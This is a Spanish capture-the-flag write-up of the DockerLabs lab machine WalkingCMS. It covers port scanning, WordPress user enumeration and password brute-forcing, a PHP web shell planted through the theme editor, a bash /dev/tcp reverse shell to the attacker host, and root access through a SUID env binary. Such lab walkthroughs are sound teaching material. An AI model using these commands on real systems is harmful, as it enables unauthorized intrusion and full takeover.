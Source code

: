 # [WalkingCMS](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh walkingcms.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/50801b43-05e7-4999-91d4-d23412e03e67)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como. podemos ver una página por defecto de Apache2, por lo que haremos un fuzzing para encontrar posible directorios de la siguiente forma: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2/wordpress -x txt,sql,py,js,php,html`
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8c202d25-653f-4177-a6fe-2344be418e8f)

<br>

Nos reporta que existe un directorio dentro de la web llamado `/wordpress`, por lo que entendemos que dicho servidor web está alojado en wordpress.
<br>

Una vez que sabemos que tiene un wordpress, pasaremos a usar la herramienta `wp-scan` la cual nos permite identificar posible vulnerabilidades a través de plugins, enumeración de usuarios y hacer un ataque de fuerza bruta al panel de login. Para usar dicha herramienta pondremos los siguiente: `wpscan --url http://172.17.0.2/wordpress --enumerate u, pv`, con la cual obtendremos que existe un usuario llamado `mario`:<br> 
`-url` ⮞ dirección IP de la máquina victima <br>
`--enumerate u, pv` ⮞ le indicamos que nos enumere posible usuarios con la `u` y plugins con la `pv`. <br> 

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/96d9d3cc-7e1f-4621-b9f9-cd0ec4350bfe)

<br>
<br>

## Fuerza Bruta
Una vez conocemos el posible usuario haremos un ataque de fuerza bruta al panel de login que sería `/wp-admin`. Dicho ataque de fuerza bruta se podría hacer con burpsuite pero en este caso yo usaré wpscan ya que va más rápido, por lo que pondremos lo siguiente: `wpscan --url http://172.17.0.2/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames mario`. <br> 
`-url` ⮞ dirección IP de la máquina victima <br>
`-passwords` ⮞ especificamos la ruta del diccionario en este caso sería el [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). <br> 
`-usernames` ⮞ especificamos los usuarios en este caso solo es `mario`.
<br>

Nos reporta lo siguiente: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9874aab1-121f-4d9d-91b0-ecd7e24b3f63)

<br>

Ahora volvemos al panel de login que estaría en la siguiente ruta: `http://172.17.0.2/wordpress/wp-admin/`, nos logeamos con las credenciales obtenidas `(mario:love)`. Buscando por el panel de admin una posible forma de acceder a la máquina WalkingCMS observamos que si pinchamos en la parte de `Apariencia > Theme Code Editor` se nos abrirá un editor de código para los temas.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b0ef60eb-201e-43e4-812e-f7aaaeccc9b8)

<br>

Pinchando en el botón de `Create` de la derecha nos aparecerá el siguiente pop-up para crear um archivo/carpeta, creamos un archivo de nombre `cmd.php`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/684232e5-7e9b-4bae-b38f-48f1640beef6)

<br>

Pasamos a editar dicho archivo `.php` que tendrá el siguiente contenido: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/563a2366-2256-48c9-818c-a56d2b398b3a)

<br>

Lo que debemos hacer ahora es acceder a dicho archivo a través de la URL, para ello nos iremos a la ruta que nos salía al crear un archivo, que sería `wordpress/wp-content/themes/twentytwentytwo/`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/741a0428-f358-45f0-b695-c2ae180839fe)

<br>

Y lo que queremos es acceder al archivo de nombre `cmd.php` por lo que introduciremos en la URL lo siguiente: `http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/cmd.php`, y listo conseguiremos RCE (Remove Code Execution) pasándole como parámetro a `cmd` el comando que queremos ejecutar en este caso `id`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ebca85b8-2f72-4f24-bdd2-90a04be442d1)

<br>

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/). En primer lugar, nos ponemos en escucha en un puerto poniendo en la terminal escribiendo lo siguiente `nc -nlvp 443`, y poniendo lo siguiente en el buscador `172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, y listo recibiríamos la revshell: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af76da05-55f2-4767-b1a9-15137429dc65)


## Escala de Privilegios
Antes de empezar a probar como escalar privilegios haremos un sencillo tratamiento de la tty poniendo en orden lo siguiente: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>
6-. `ajustamos el stty size poniendo lo siguiente stty rows 49 cols 210`<br>

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data**, hacemos un `cat /etc/passwd | grep "sh$"` para ver los posibles usuarios: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6ba29ccd-363b-4722-a2db-3336b70e3121)

<br>

Vemos que tan solo se encuentra el usuario `root`, por lo que entendemos que vamos a escalar privilegios directamente.
<br>

Si ejecutamos `sudo -l` observamos que no podemos correr nada como sudo, de hecho no esta ni instalado.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo(sudoers).
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/76c547c0-de2e-4609-9734-fd31077927fa)

<br>

Hacemos la siguiente comprobación para ver la posible escalada ejecutando `find / -perm -4000 2>/dev/null`<br>
`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores <br>

<br>

Y vemos que tenemos permiso SUID sobre `/usr/bin/env`: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3f30a8f4-66fd-4f0e-88f1-db7e0e97d629)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de SUID de env, y nos encontramos con lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d3b33fc1-59de-43ba-936e-783c7673af92)

<br>

Por lo que probaremos a ejecutarlo en la máquina víctima poniendo `/usr/bin/env /bin/bash -p`
<br>

Comprobamos que nos ha cambiado el terminal, y listo si ya somos `root` y si hacemos `whoami` para comprobarlo.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ec54c601-2dd3-4c56-a7a1-b9f481dec655)

